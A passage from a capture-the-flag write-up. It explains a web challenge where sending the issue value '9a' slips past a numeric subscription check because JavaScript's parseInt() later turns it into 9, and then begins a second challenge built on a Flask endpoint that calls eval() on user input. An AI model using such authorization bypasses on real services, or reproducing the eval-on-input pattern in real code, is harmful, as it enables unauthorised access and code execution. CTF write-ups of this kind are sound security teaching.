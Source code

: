 So we just need to read the article which contains this flag. I notice when trying to read this article I get blocked by the following line:

```js
if (decoded.subscription !== "premium" && issue >= 9) {
        return res
          .status(403)
          .json({ message: "Please subscribe to access this issue" });
      }
```

This is because it has `id` of 9. We need to pass in a value which is NOT `>= 9` but will read the final element of the array when it hits the following line:

```js
return res.json(articles[issue]);
```

My initial thought was to pass in `-1` because in Python that can be used to access the last element of a list. Then I remembered that unfortunately this was written in Javascript!

But one line peaked my interest which sat after the numerical check but before the return:

```js
issue = parseInt(issue);
```

Can we pass a value which is considered NOT `>= 9` but when passed into `parseInt()` returns 9? Well, it turns out that any letters appended to javascript's `parseInt()` are truncated.

```http
POST /article HTTP/1.1

{"issue":"9a"}
```

And we get our flag.

`uoftctf{w31rd_b3h4v10r_0f_parseInt()!}`

## web/No Code
This time we just get a standalone Python source file. We can see the application is running Flask and there is only one endpoint to interact with.

```python
@app.route('/execute', methods=['POST'])
def execute_code():
    code = request.form.get('code', '')
    if re.match(".*[\x20-\x7E]+.*", code):
        return jsonify({"output": "jk lmao no code"}), 403
    result = ""
    try:
        result = eval(code)
    except Exception as e:
        result = str(e)

    return jsonify({"output": result}), 200
```
